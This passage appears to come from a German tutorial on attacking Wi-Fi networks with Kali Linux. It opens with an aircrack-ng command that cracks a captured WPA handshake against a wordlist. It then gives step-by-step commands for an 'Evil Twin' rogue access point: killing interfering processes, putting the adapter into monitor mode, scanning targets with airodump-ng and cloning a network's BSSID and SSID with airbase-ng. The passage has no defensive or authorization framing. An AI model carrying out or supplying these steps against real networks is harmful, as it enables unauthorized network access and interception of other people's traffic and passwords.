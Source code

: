 Den Handshake mit der eigenen Wordlist ausführen:
```
$ aircrack-ng hack1-01.cap -w wordlist-abc.lst
```



----------------------------------------------------------------------------------------------------------------



# 3. WLAN mit einem Evil Twin hacken in Kali Linux


## Einen Evil Twin erstellen, um ein Netzwerk aufzusetzen, bei dem der PC vorgibt, der WLAN-Router zu sein.


```
$ sudo apt install bridge-utils
```


- Nun muss der WLAN-Adapter in Monitor-mode:

```
$ iwconfig
```
```
$ sudo airmon-ng check
```
```
$ sudo airmon-ng check kill
```
```
$ sudo airmon-ng start wlan0
```
```
$ iwconfig
```


- Netzwerk "fälschen":

Hinweis:

Signal von dem gefälschten Netzwerk ist natürlich deutlich schwächer. Hier muss ggf. nachgeholfen werden.

```
$ sudo airodump-ng wlan0mon
```
```
$ airbase-ng -a *mac-adresse(meist als "BSSID" gekennzeichnet)* --essid *SSID(Name)* -c *CHANNEL (z.B.1)* wlan0mon
```

### WICHTIG:
Wenn bei der SSID Leerzeichen sind, dann muss ein `\` vor das Leerzeichen gesetzt werden.
